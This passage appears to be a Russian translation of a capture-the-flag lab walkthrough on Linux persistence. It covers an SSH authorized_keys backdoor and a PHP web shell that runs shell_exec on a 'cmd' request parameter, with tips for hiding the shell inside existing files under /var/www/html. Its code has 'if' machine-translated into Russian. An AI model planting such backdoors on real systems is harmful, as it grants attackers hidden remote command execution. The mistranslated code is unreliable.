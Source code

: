 Это необходимо, поскольку если мы этого не сделаем, ssh будет жаловаться на то, что разрешения на доступ к ключу 
недостаточно надежны, и, скорее всего, не позволит нам его использовать. 

После предоставления ключу правильных прав доступа мы можем выполнить команду: «ssh -i id_rsa root@ip», чтобы войти 
в нужную нам машину! 

Что следует отметить относительно этого бэкдора:

 Этот бэкдор вообще не скрыт. Любой с соответствующими правами мог бы удалить наш открытый ключ ssh или файл 
 authorized_keys полностью. 


### Ответьте на вопросы ниже
В какой директории мы размещаем наши ключи?
```commandline
.ssh
```
Какой флаг в ssh мы используем, чтобы показать наш закрытый ключ?
```commandline
-i
```

## Задание 3
Давайте теперь перейдем ко второму бэкдору: PHP- бэкдоры!

Если вы получили root-доступ на хосте Linux , вы, скорее всего, будете искать учетные данные и/или любую полезную 
информацию в корневом каталоге веб-сайта. 

Корневой каталог обычно находится в: `/var/www/html`

Вам нужно знать, что все, что вы оставите в /var/www/html, будет доступно для использования в браузере каждого.

Теперь, когда вы это знаете, вы можете попробовать создать php-файл с любым именем и поместить в него этот фрагмент кода:
```commandline
<?php 
    если (isset($_REQUEST['cmd'])) { 
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; 
    } 
?>
```

Этот код просто принимает параметр «cmd» и выполняет все, что передается этому параметру.
Обратите внимание, что мы используем: "$_REQUEST['cmd'])", что означает, что вы можете передать этот параметр либо в 
данных GET, либо в данных POST. 
Теперь, когда файл сохранен и готов, мы можем попытаться выполнить запрос к нему.
Если вы оставили файл в `/var/www/html/shell.php` | Вы должны иметь возможность получить к нему прямой доступ, 
используя: http://ip/shell.php
Если вы оставили оболочку где-то в другом месте, посмотрите, в каком каталоге она находится, а затем попробуйте 
получить к ней доступ, выполнив следующие действия: http://ip/somedirectory/shell.php 
Вот несколько способов, с помощью которых мы могли бы сделать этот бэкдор более скрытным:
1. Попробуйте добавить этот фрагмент кода в уже существующие файлы php в /var/www/html. Добавление его ближе к 
   середине файлов определенно сделает наши вредоносные действия немного более скрытными. 
2. Измените параметр "cmd" на что-то другое... на самом деле, на что угодно... просто измените его на что-то не 
   такое распространенное. "Cmd" действительно распространен и уже очень хорошо известен в хакерском сообществе. 
